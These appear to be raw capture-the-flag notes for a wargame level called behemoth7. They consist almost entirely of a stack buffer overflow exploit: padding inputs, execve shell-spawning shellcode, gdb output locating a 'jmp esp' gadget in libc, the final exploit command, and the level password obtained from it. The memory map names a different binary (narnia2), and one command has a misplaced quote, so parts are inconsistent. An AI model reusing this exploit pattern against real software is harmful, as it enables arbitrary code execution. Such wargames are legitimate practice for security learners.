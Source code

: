 ./behemoth7 "$(python -c 'print "A" * 512 + "\x20"*44')"

eip: 0x61616165


./behemoth7 "$(python -c 'print "A" * 512 + "B" * 16 + "C" * 4' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80')"

find jmp esp

(gdb) info proc map
process 5536
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /narnia/narnia2
         0x8049000  0x804a000     0x1000        0x0 /narnia/narnia2
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xf7e10000 0xf7e12000     0x2000        0x0
        0xf7e12000 0xf7fc3000   0x1b1000        0x0 /lib32/libc-2.24.so
        0xf7fc3000 0xf7fc5000     0x2000   0x1b0000 /lib32/libc-2.24.so
        0xf7fc5000 0xf7fc6000     0x1000   0x1b2000 /lib32/libc-2.24.so
        0xf7fc6000 0xf7fc9000     0x3000        0x0
        0xf7fd2000 0xf7fd4000     0x2000        0x0
        0xf7fd4000 0xf7fd7000     0x3000        0x0 [vvar]
        0xf7fd7000 0xf7fd9000     0x2000        0x0 [vdso]
        0xf7fd9000 0xf7ffc000    0x23000        0x0 /lib32/ld-2.24.so
        0xf7ffc000 0xf7ffd000     0x1000    0x22000 /lib32/ld-2.24.so
        0xf7ffd000 0xf7ffe000     0x1000    0x23000 /lib32/ld-2.24.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find /b 0xf7fc3000, 0xf7fc5000, 0xff, 0xe4
0xf7fc4f97
1 pattern found.
(gdb) x/wx 0xf7fc4f97
0xf7fc4f97:     0xfc5be4ff

jmp esp: 0xf7fc4f97

./behemoth7 "$(python -c 'print "A" * 512 + "B" * 16 + "\x97\x4f\xfc\xf7" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')"

behemoth8:pheewij7Ae
